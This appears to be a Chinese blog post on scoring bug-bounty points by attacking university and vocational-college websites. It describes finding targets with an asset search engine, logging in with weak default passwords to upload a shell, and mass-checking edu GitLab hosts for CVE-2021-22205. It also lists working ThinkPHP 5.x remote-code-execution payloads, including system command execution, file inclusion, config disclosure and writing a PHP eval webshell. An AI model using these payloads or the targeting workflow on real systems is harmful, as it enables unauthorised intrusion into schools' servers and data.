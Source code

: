 所以我一开始是去找那种职业学院打的，大概是排行榜50多页的学校，可以用鹰图title="xxxx"进行搜集，

因为一些带专网站的安全意识比较差的，所以有时候能遇到那种弱口令进后台文件上传拿shell的，关于弱口令：用户名一般是admin ，密码一般是123456，admin，888888 三选一，不是的话可以撤退了

弱口令真的yyds

除了弱口令

然后说一下其他思路

比如说think5未开强制路由RCE,这种网站很多大学都存在，但是寻找thinkphp符和条件的网站却很难，一种利用鹰图就是搜索默认图标hash值来寻找，但是这种估计很难捡到，但是在闲逛的过程中看到路由规则类似thinkphp的可以尝试一下(靠这个上了十多rank

一些payload:

5.1.x ：

```
?s=index/\think\Request/input&amp;filter[]=system&amp;data=pwd
?s=index/\think\view\driver\Php/display&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\template\driver\file/write&amp;cacheFile=shell.php&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\Container/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id
?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id

```

5.0.x ：

```
?s=index/think\config/get&amp;name=database.username # 获取配置信息
?s=index/\think\Lang/load&amp;file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&amp;file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id

```

写入 shell

```
public/index.php?s=index/think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=../shell.php&amp;vars[1][]=&lt;?php @eval($_REQUEST[cmd]);?&gt;

```

然后然后，讲一下我一些思路，使用一些Nday来快速上分，或者挖掘逻辑漏洞实现通杀

#### **关于Nday这里举俩个例子大家自行体会**

比如说你知道有一个cve 比方说这个gitlab的cve：gitlab-CVE-2021-22205，gitlab显而易见的是很多高校都有这个gitlab的托管网站

所以说我们只要把所有gitlab edu上的资产全部搜集过来然后利用脚本一一检测就了

这里说一下怎么搜集的

**先从图标下手，限定edu域名：可以看到有17条资产
